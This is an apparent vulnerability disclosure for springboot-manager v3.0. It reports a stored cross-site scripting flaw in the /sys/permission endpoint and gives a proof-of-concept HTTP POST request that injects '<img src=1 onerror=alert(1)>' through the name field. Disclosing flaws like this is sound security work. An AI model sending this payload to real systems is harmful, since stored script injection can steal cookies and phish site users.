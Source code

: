 BUG_Author

Longlong Gong

# Project

Address: 

github:[springboot-manager](https://github.com/aitangbao/springboot-manager)

gitee:[springboot-manager](https://gitee.com/zwens/springboot-manager)

## Stored cross-site scripting

### 1.1 `/sys/permission` Stored cross-site scripting

[Affected version]

v3.0



[Affected Component]

/sys/permission



[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0



[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sys/permission` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sys/permission HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 194
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/menus
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","pid":"0","type":"1","name":"<img src=1 onerror=alert(1)>","pidName":"默认顶级菜单","url":"","target":"_self","perms":"","icon":"layui-icon-rate-half","orderNum":"1","status":"0"}
```
